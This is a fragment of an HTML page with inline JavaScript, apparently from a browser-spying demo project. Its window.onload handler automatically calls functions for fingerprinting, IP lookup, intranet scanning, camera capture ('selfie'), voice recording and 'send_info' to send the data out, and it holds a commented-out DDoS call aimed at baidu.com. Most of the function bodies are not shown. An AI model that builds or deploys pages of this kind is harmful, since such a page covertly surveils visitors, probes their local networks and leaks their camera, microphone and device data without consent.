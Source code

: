 ```
        info.download_speed=speed+'kb/s';
        console.log('Download speed testing finished!');
    }

    /*
    // 音频测速
    var audio=new Audio();
    // 大小: 1.3M
    size=1235.87;
    audio.src='https://raw.githubusercontent.com/Urinx/browspy/master/screenshot/ValderFields.mp3';
    audio.volume=0;
    audio.play();

    startTime=new Date().getTime();

    var timer;
    timer=setInterval(function(){
        if (audio.networkState==1) {
            endTime=new Date().getTime();
            speed=size/((endTime-startTime)/1000);
            speed=parseInt(speed*10)/10;
            info.download_speed=speed+'kb/s';

            console.log('Download speed testing finished!');
            audio.stop();
            clearInterval(timer);
        };
    },100);
    */
}

window.onload=function(){
    device_platform();
    get_ip_addr();
    intranet_scan();
    canvas_id();
    selfie();
 
    network_speed();
    voice_record();
    //DDos('http://baidu.com');
	
	
	send_info();
};
		</script>

    </head>

    <body>

        <INPUT id="Button1" type="button" value="浏览器所有信息" name="Button1" language=javascript onclick="allinfo()">

        <INPUT id="Button1" type="button" value="客户端pc信息" name="Button1" language=javascript onclick="pcInfo()">

        <div id="elInfo">

        </div>
    </body>

</html>
```